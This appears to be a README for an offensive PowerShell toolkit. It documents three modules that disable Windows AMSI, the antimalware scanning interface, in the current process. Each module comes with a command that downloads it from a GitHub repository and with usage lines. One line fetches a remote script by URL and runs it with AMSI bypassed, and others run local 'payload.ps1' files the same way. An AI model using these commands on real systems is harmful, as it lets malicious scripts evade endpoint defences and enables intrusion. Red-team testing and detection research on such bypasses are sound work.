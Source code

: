 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|\*\*\*|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Module Name
   <b><i>Invoke-Bypass.ps1</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process + execute script through bypass?|User Land|3 bypass technics available (manual)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```

```powershell      
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   
